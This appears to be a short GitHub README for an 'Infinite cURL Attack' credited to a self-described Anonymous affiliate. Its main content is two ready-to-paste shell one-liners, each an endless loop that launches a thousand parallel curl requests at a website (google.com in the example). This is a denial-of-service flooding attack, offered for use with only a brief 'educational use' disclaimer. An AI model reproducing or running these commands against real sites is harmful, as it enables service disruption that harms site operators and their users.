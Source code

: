 <img src="https://i.pinimg.com/originals/23/a1/1f/23a11f14ab93d3ed4541960141e380ad.gif" width="200" alt="Security Tools by gh0$t. Affiliation : Anonymous (hacker group, global)." title="Security Tools by gh0$t. Affiliation : Anonymous (hacker group, global)." />  

# Infinite_cURL_Attack
Infinite cURL Attack

**USAGE** : Copy-Paste-Edit the following code in the Terminal/CMD.
```
while (true); do xargs -I % -P 1000 curl -v --header "Connection: keep-alive" "https://www.google.com" \ < <(printf '%s\n' {1..1000}); done;
```
OR
```
while (true); do seq 1 1000 | xargs -n1 -P 1000 curl -I -v --header "Connection: keep-alive" "https://www.google.com"; done;
```

**IMPORTANT:**  
THIS SOFTWARE IS PROVIDED FOR EDUCATIONAL USE ONLY!  
IF YOU ENGAGE IN ANY ILLEGAL ACTIVITY THE AUTHOR DOES NOT TAKE ANY RESPONSIBILITY FOR IT.  
BY USING THIS SOFTWARE YOU AGREE WITH THESE TERMS.
